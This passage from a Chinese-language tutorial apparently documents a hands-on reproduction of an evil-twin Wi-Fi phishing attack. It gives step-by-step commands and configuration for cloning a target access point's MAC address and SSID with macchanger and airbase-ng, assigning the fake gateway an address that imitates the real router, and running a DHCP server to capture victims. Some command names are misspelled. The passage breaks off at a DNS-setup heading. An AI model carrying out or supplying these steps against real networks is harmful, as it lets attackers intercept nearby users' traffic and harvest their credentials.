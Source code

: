 5.嗅探该AP中的所有成员

<br/> 如果没有成员的话可以插拔一下网卡（我才不会因为在复现过程中没看到网卡关闭等了十几分钟这件事说出来）

6.克隆Wi-Fi钓鱼热点<br/> 需要伪造一个同名，同mac地址的钓鱼热点<br/> 更改网卡mac地址步骤：

```
sudo ifconfig device2 down
sudo macchaner device2 -m &lt;newmac&gt; //注意，请将这里的newmac更改为目标AP点的mac地址
sudo ifconfig device2 up
```

伪造热点：

```
sudo airmong start wlan2 //开启网卡的监听模式
sudo airbase-ng -e &lt;target SSID&gt; -c &lt;channel&gt; &lt;device2&gt; //讲trget SSID更改为目标SSID，并且channel更改成不同的信道
sudo ifconfig at0 up //启动虚拟网关
sudo vi /etc/network/interfaces
------------------------------
//配置虚拟网卡地址参数
auto at0
iface at0 inet static
address 192.168.199.1 //这里最好与目标ap点的管理页面一样
netmask 255.255.255.0
------------------------------
sudo service networking restart //重启网卡服务
ifconfig at0查看at0网卡，如果没有ip地址或者不存在，重试以上步骤,注意！必须先使用airbase-ng创建AP点,at0网卡才会被可用！
```

配置DHCP:

```
sudo vi /etc/dhcp/dhcpd.conf
设置子网 掩码 分配地址范围等
在里面添加：
subnet 192.168.199.0 netmask 255.255.255.0{
range 192.168.199.100 192.168.199.150;
option routers 192.168.199.1;
option subnet-mask 255.255.255.0;
option domain-name-servers 192.168.178.99; //注意这里的doamin地址需要自己更换
}
```

```
进入下一配置文件，将at0指定为dhcp请求网卡
sudo vi /etc/default/isc-dhcp-server
将其中的INTERFACESv4=""更改为INTERFACESv4="at0"
```

```

sudo service isc-dhcp-server restart //重启dhcp服务
```

### 配置dnsmasq
